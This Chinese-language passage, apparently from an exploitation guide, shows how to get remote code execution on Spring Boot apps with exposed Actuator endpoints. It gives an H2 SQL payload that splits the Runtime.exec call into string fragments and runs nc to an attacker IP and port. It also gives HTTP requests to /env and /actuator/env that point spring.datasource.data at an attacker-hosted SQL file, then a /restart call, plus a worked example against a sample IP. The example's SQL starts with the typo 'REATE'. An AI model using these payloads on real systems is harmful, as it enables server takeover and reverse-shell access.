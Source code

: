 

在根目录放置以任意名字的文件，内容为需要执行的 h2 sql 代码，比如：

> ⚠️ 下面payload 中的 'T5' 方法只能 restart 执行一次；后面 restart 需要更换新的方法名称 (如 T6) 和设置新的 sql URL 地址，然后才能被 restart 重新使用，否则第二次 restart 重启应用时会导致程序异常退出

```xml
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('nc','ip地址','port');
```



**步骤二：设置 spring.datasource.data 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.data=http://your-vps-ip/example.sql
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.data","value":"http://your-vps-ip/example.sql"}
```



**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```





##### 利用实例

编写h2 sql语句,执行nc连接目标主机192.168.233.242的端口1234

```
REATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('nc','192.168.233.242','1234');
```
